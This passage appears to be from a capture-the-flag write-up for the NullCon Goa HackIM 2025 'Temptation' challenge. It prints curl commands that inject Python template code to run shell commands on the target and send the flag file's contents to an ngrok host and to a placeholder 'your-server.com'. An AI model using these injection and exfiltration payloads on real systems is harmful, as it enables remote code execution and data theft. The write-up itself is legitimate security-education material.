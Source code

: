 > curl -X POST "http://52.59.124.14:5011/" --data-urlencode "temptation=\${__import__('os').popen('curl https://9791-2-37-206-147.ngrok-free.app?content=\$(echo Y2F0IC90bXAvZmxhZy50eHQK| base64 -d |bash)').read()}"
> ```
> ![Exploitation](/images/NullCon-Goa-HackIM-CTF-2025/Temptation/exploitation.png "Exploitation")
> 
> And as we can see, the request reaches the `ngrok` web server. Now, we just need to check on the ngrok web interface to see if the output of the `cat /tmp/flag.txt` command (i.e., the actual flag) is in the `content` parameter. Another valid and much more elegant exploit, after speaking with a guy from my team, is the following:
> 
> ```bash
> curl http://52.59.124.14:5011/ --data "temptation=\${__import__('os').popen('curl -X POST https://your-server.com --data-binary @/etc/flag.txt').read()}"
> ```
>
### Flag capture
>  
>   ![Manual Flag](/images/NullCon-Goa-HackIM-CTF-2025/Temptation/manual_flag.png "Manual Flag")
> (The flag does not display the `{}` brackets due to an encoding or decoding issue with ngrok. You just need to add one bracket at the end and one after `ENO` to recreate the flag pattern and have a valid flag.)
